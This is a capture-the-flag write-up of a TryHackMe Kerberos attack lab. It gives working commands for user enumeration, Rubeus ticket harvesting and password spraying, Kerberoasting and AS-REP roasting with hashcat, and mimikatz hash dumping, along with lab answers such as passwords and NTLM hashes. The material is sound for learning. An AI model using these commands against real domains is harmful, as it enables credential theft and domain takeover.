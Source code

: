 <- [[Writeup Index]]
<- [[Kerberos]]
# Attacking Kerberos
Link: https://tryhackme.com/room/attackingkerberos

**Covers**
- Basics of Attacking #Kerberos
- Enumeration w/ [[kerbrute]] and [[Rubeus]]
- [[Kerberos#Kerberoasting|Kerberoasting]]
- [[Kerberos#AS-REP Roasting|AS-REP Roasting with Rubeus and #Impacket]]
- [[Kerberos#Golden Ticket Silver Ticket|Golden/Silver Ticket Attacks]]
- [[Kerberos#Pass-the-Ticket|Pass-the-Ticket]]
- [[Kerberos#Skeleton Keys Backdoors|Skeleton key attacks using mimikatz]]


## Tasks
### Task 2 - Enumeration w/ Kerbrute
Conduct some basic recon on the target to discover relevant information:
`nmap -A 10.10.173.126`
![[attacking-kerberos-nmap-service&os-scan.png]]

Add Target IP and Domain Name to `/etc/hosts`:
![[kerbrute-add-hosts-entry.png]]

Enumerate users from word list using [[kerbrute]]:
![[attacking-kerberos-kerbrute-enumuser.png]]

#### Task 2 Questions
```
How many total users do we enumerate?
	10
What is the SQL service account name?
	sqlservice
What is the second "machine" account name?
	machine2
What is the third "user" account name?
	user3
```

### Task 3 - Harvesting & Brute-Forcing Tickets w/ Rubeus
[[Rubeus]] is a toolset for raw interactions and abuse of Kerberos. 
For this box its already installed on the target machine so no installation or configuration is necessary. 

First, SSH (or RDP) into the target machine `Administrator::P@$$W0rd`

#### Harvesting Tickets
1. Navigate to `Downloads` where Rubeus is
2. Tell Rubeus to harvest TGTs for 30 seconds
	1. `Rubeus.exe harvest /interval:30` ![[Rubeus-harvest-tickets-interval-30sec.png]]
		1. **NOTE** this will run indefinitely until you terminate, for the box you don't need to run it that long. 

Scrolling through the output we see that we've captured tickets from two accounts:
- `Administrator`, a domain admin ![[Attacking-Kerberos-Rubeus-Harvest-Ticket-Domain-Admin.png]]

- `CONTROLLER-1`, a domain controller ![[Attacking-Kerberos-Rubeus-Harvest-Ticket-Domain-Controller.png]]


#### Brute-Forcing / Password-Spraying w/ Rubeus
The box only asks you to password-spray the DC, rather than brute force a particular user. 

First, they recommend adding the IP and domain name of the DC to the Windows host file with:
`echo 10.10.173.126 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

*Technically* this is not necessary here, as Rubeus allows us to pass the IP of the DC in the command with `/dc:<IP_OF_DC>`

To spray **after** adding DC to hosts file:
`Rubeus.exe /password:Password1 /noticket`

To spray **w/o** adding DC to hosts file:
`Rubeus.exe /password:Password1 /dc:10.10.173.126 /noticket`

Spraying results in the following results and **.kirbi** ticket:

![[Rubeus-password-spray-example.png]]

#### Task 3 Questions
Both questions are answered from [[THM - Attacking Kerberos#Harvesting Tickets|Harvesting Tickets]]
```
Which domain admin do we get a ticket for when harvesting tickets?
	Administrator
Which domain controller do we get a ticket for when harvesting tickets?
	CONTROLLER-1
```

### Task 4 - Kerberoasting w/ Rubeus & Impacket
The largest difference between the two approaches, Rubeus and Impacket's GetUserSPNs.py, is that the latter can be done remotely while Rubeus requires execution on the target machine.

#### Rubeus Kerberoasting
See [[Rubeus#Kerberoasting]]
I recommend using `/nowrap` to make copying the hash easier. 

#### Impacket GetUserSPNs.py Kerberoasting
See [[GetUserSPNs.py#Example Usage]]

#### Cracking the Hash
With the hash saved to your local machine, you can crack it with hashcat (Pass.txt is provided in the tutorial):
`hashcat -m 13100 -a 0 hash.txt Pass.txt`

Once cracked use `--show` to show the cracked password. 

**HTTPService**
*Pass*: `Summer2020`
![[Attacking-Kerberos-Kerberoasting-cracked-hash-httpservice.png]]

**SQLService**
*Pass*: `MYPassword123`
![[Attacking-Kerberos-Kerberoasting-cracked-hash-sqlservice.png]]

#### Task 4 Questions
Questions answered after cracking hashes
```
What is the HTTPService Password?
	Summer2020
What is the SQLService Password?
	MYPassword123
```

### Task 5 - AS-REP Roasting w/ Rubeus
Very similar process to Task 4, retrieve the hashes and crack them. 

We'll only be using [[Rubeus]] this time.

#### Dumping KRBASREP5 Hashes w/ Rubeus
See [[Rubeus#AS-REP Roasting]]

Run `Rubeus.exe asreproast` which automatically scan for AS-REP Roastable users and attempt to grab the hashes.

![[Rubeus-AS-REP-Roasting-example.png]]

#### Crack the Hashes w/ hashcat
**IMPORTANT** Add `$23` after `$krb5asrep` and before the user in the hash for it to work with hashcat. 

Crack the hashes with (`Pass.txt` is the same provided wordlist from Task 4):
`hashcat -m 18200 -a 0 hash.txt Pass.txt`

![[Attacking-Kerberos-AS-REP-Roasting-cracked-hashes.png]]

#### Task 5 Questions
All questions can be answered after cracking hashes, EXCEPT Question 1, which requires looking up the hash type on the hastcat wiki (https://hashcat.net)
```
What has type does AS-REP Roasting use?
	Kerberos 5 AS-REP etype 23
Which User is vulenerable to AS-REP Roasting?
	User3
What is the User's Password?
	Password3
Which Admin is vulnerable to AS-REP Roasting?
	Admin2
What is the Admin's Password?
	P@$$W0rd2
```

### Task 6 - Pass the Ticket w/ mimikatz
There are no questions to answer here, but its good practice nonetheless. 

![[Mimikatz#Pass-the-Ticket]]

### Task 7 - Golden/Silver Ticket Attacks w/ mimikatz
This box only requires dumping the hashes and SIDs for accounts and not actually creating Golden/Silver Tickets, but check [[Mimikatz#Golden Silver Ticket Attacks]] for step by step on how. 

1. Make sure you're in `Downloads` so you can run `mimikatz`
2. Once running, run `privilege::debug` and check that your output is `Privilege '20' OK`, i.e. you have necessary privs.
4. Next run `lsadump::lsa /inject /name:SQLService` to dump the hash and SID of the SQLService account ![[Attacking-Kerberos-mimikatz-dump-SQLService-ticket.png]]
5. Next run `lsadump::lsa /inject /name:Administrator` to dump the hash and SID of the Administrator account ![[Attacking-Kerberos-mimikatz-dump-Administrator-ticket.png]]

#### Task 7 Questions
All questions can be answered after dumping the hashes/SIDs for the referenced accounts
```
What is the SQLService NTLM Hash?
	cd40c9ed96265531b21fc5b1dafcfb0a
What is the Administrator NTLM Hash?
	2777b7fec870e04dda00cd7260f7bee6
```

### Task 8 & 9
Have no questions to be answered, but Task 8 covers Backdoors w/ mimikatz via Skeleton keys. See [[Mimikatz#Backdoors and Skeleton Keys]]

